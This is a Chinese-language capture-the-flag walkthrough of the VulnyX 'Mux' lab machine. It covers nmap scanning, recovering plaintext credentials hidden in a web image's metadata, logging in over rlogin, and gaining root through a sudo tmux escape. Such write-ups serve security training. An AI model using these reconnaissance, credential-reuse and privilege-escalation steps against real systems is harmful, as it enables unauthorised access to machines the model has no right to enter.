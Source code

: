 # 环境

来自[vulnyx_Mux](https://vulnyx.com/#Mux)



# 信息收集

## 主机发现

```bash
sudo nmap -sn 192.168.88.0/24
```

![image-20240725110125671](image/image-20240725110125671.png)

## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.88.36
```

![image-20240725110233231](image/image-20240725110233231.png)

## 服务探测

```bash
sudo nmap -sV -sC -O -p80,512,513,514 192.168.88.36

512：在某些系统中，512端口可能被用于远程登录（如rlogin），但这种情况较少见。
513：513端口通常用于远程登录（rlogin），这是一种旧的远程登录协议，类似于telnet，但提供了更少的安全性。
514：514端口通常用于远程命令执行（rsh），这也是一种旧的协议，类似于SSH，但安全性较低。
```

![image-20240725110641679](image/image-20240725110641679.png)

目录扫描无果

# web渗透

## 图片隐写拿到密码

访问80，是一张图片，下载下来

```bash
exiftool image.jpg
strings image.jpg
```

![image-20240725111346334](image/image-20240725111346334.png)

![image-20240725111857232](image/image-20240725111857232.png)

发现账号密码`lisa:My_$3cUr3_RSH_p@zz`和`lisa:Gi0c0nd@`，因为513端口是login，尝试登录

```bash
rlogin lisa@192.168.88.36
```

![image-20240725111953820](image/image-20240725111953820.png)

## 提权

```bash
sudo -l
```

![image-20240725112037360](image/image-20240725112037360.png)

[tmux提权](https://gtfobins.github.io/gtfobins/tmux/)

```bash
sudo tmux
```

